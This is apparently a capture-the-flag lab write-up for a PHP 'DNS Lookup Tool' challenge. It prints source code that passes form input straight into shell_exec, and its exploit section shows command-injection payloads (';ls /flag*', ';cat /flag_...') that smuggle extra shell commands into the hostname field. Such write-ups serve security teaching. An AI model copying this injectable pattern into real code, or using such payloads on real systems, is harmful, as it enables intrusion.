 # Simple Web 0x09(Lab - DNS Lookup Tool)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8300/

## Source code
:::spoiler code
```php=
 <?php
isset($_GET['source']) and die(show_source(__FILE__, true));
?>

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>DNS Lookup Tool | Baby</title>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.3/css/bulma.min.css">
</head>

<body>
    <section class="section">
        <div class="container">
            <div class="column is-6 is-offset-3 has-text-centered">
                <div class="box">
                    <h1 class="title">DNS Lookup Tool 🔍</h1>
                    <form method="POST">
                        <div class="field">
                            <div class="control">
                                <input class="input" type="text" name="name" placeholder="example.com" id="hostname" value="<?= $_POST['name'] ?? '' ?>">
                            </div>
                        </div>
                        <button class="button is-block is-info is-fullwidth">
                            Lookup!
                        </button>
                    </form>
                    <br>
                    <?php if (isset($_POST['name'])) : ?>
                        <section class="has-text-left">
                            <p>Lookup result:</p>
                            <pre><?= shell_exec("host '" . $_POST['name'] . "';") ?></pre>
                        </section>
                    <?php endif; ?>
                    <hr>
                    <a id="magic">Magic</a> | <a href="/?source">Source Code</a>
                </div>
                <article class="message is-link is-hidden is-size-4" id="hint">
                    <div class="message-body is-family-monospace">
                        host '<span class="has-text-danger" id="command"></span>';
                    </div>
                </article>
            </div>
        </div>
    </section>

    <script>
        magic.onclick = () => hint.classList.toggle("is-hidden");
        window.onload = hostname.oninput = () => command.textContent = hostname.value;
    </script>
</body>

</html> 
```
:::

## Exploit
1. According to the source code, seems there's no any protection.
2. `shell_exec`
It used `shell_exec` to parse input string.
`shell_exec("host '" . $_POST['name'] . "';")`
`shell_exec("host '" . ';ls /flag*' . "';")`→`host '';ls /flag*'';`
![](https://i.imgur.com/6rCN8gy.png)
↓
`shell_exec("host '" . ';cat /flag_44ebd3936a907d59'. "';")`
* Note that, you can use `psysh` or `php -a` in Linux with interactive mode to try the payload
3. Then we got flag!!!


## Reference
[PHP system()、exec()、shell_exec() 的 差異](https://blog.longwin.com.tw/2013/06/php-system-exec-shell_exec-diff-2013/)